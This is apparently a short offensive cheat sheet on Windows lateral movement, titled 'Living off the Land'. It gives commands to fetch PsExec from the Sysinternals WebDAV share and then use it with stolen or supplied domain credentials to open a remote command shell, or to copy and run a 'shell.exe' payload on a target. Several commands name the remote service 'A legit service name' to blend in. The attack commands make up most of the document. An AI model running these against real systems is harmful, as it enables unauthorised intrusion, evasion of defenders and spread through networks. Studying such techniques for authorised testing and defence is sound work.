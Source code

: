 # Living off the Land

Search Tag(s): #lateral-movement #psexec #windows

## 01 - Sysinternal

### 1.1 - Copy File from WebDAV

- In command prompt

```
C:\> net use z: \\live.sysinternals.com\tools

C:\> copy z:\PsExec64.exe .

C:\> net use z: /delete
```

- In powershell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\PsExec64.exe .

PS C:\> Remove-PSDrive -Name Z
```

- Using part of the Windows Sysinternals PsExec

```
C:\> PsExec64.exe \\<IP> -u <domain_name>\<username> -p <password> -nobanner -r "A legit service name" cmd.exe

C:\> PsExec64.exe \\<IP> -u <domain_name>\<username> -p <password> -nobanner -r "A legit service name" -d -c "C:\path\to\shell.exe"

C:\> PsExec64.exe \\<IP> -u <domain_name>\<username> -p <password> -nobanner -d -c "C:\path\to\shell.exe"
```

---
## References

- [Popping Remote Shells with Winexe & PTH-Winexe on Windows](https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/)

- [Abusing Windows Admin Shares (Lateral Movement)](https://www.youtube.com/watch?v=41MUhlHGZ4E)

- [Pass the Hash is Dead Long Live Pass the Hash](https://blog.harmj0y.net/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)